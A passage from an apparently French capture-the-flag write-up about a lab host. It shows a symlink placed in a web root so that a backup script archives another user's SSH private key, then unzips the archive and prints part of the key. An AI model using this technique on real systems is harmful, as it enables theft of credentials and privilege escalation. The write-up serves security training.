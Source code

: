 ```
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
_chrony:x:105:112:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000::/vagrant:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dev:x:1001:1001::/home/dev:/bin/bash
```

ici premièrement on fait un lien symbolique vers /etc/passwd
ensuite on va zipper ce lien symbolique puis le dézipper
et on va se rendre compte que l'on a zipper le fichier /etc/passwd et lorsqu'on l'a dézipper on a récupéré son contenu et ce n'est plus un lien symbolique.

à partir de là, on va pouvoir exploiter notre script de backup.

```
ln -s /home/dev/.ssh/id_rsa /var/www/html/id_rsa
```

on va ensuite attendre que le script soit executé.

```
www-data@retired:/var/www$ ls
2022-06-28_13-02-03-html.zip  2022-06-28_13-04-01-html.zip  html	    var
2022-06-28_13-03-03-html.zip  2022-06-28_13-05-03-html.zip  license.sqlite
www-data@retired:/var/www$ unzip -d /tmp 2022-06-28_13-05-03-html.zip
Archive:  2022-06-28_13-05-03-html.zip
   creating: /tmp/var/www/html/
   creating: /tmp/var/www/html/js/
  inflating: /tmp/var/www/html/js/scripts.js  
   creating: /tmp/var/www/html/.ssh/
  inflating: /tmp/var/www/html/activate_license.php  
   creating: /tmp/var/www/html/assets/
  inflating: /tmp/var/www/html/assets/favicon.ico  
   creating: /tmp/var/www/html/assets/img/
  inflating: /tmp/var/www/html/assets/img/close-icon.svg  
  inflating: /tmp/var/www/html/assets/img/navbar-logo.svg  
   creating: /tmp/var/www/html/assets/img/about/
  inflating: /tmp/var/www/html/assets/img/about/2.jpg  
  inflating: /tmp/var/www/html/assets/img/about/4.jpg  
  inflating: /tmp/var/www/html/assets/img/about/3.jpg  
  inflating: /tmp/var/www/html/assets/img/about/1.jpg  
   creating: /tmp/var/www/html/assets/img/logos/
  inflating: /tmp/var/www/html/assets/img/logos/facebook.svg  
  inflating: /tmp/var/www/html/assets/img/logos/microsoft.svg  
  inflating: /tmp/var/www/html/assets/img/logos/google.svg  
  inflating: /tmp/var/www/html/assets/img/logos/ibm.svg  
   creating: /tmp/var/www/html/assets/img/team/
  inflating: /tmp/var/www/html/assets/img/team/2.jpg  
  inflating: /tmp/var/www/html/assets/img/team/3.jpg  
  inflating: /tmp/var/www/html/assets/img/team/1.jpg  
  inflating: /tmp/var/www/html/assets/img/header-bg.jpg  
  inflating: /tmp/var/www/html/beta.html  
  inflating: /tmp/var/www/html/default.html  
  inflating: /tmp/var/www/html/index.php  
  inflating: /tmp/var/www/html/id_rsa  
   creating: /tmp/var/www/html/css/
  inflating: /tmp/var/www/html/css/styles.css  
www-data@retired:/var/www$ cd /tmp/var/www/html/
www-data@retired:/tmp/var/www/html$ ls
activate_license.php  beta.html  default.html  index.php
assets		      css	 id_rsa        js
www-data@retired:/tmp/var/www/html$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA2090vSkzICytlOHL9EbguWPhsai40A3RzSYDlldalPTp/0G8ge3I
```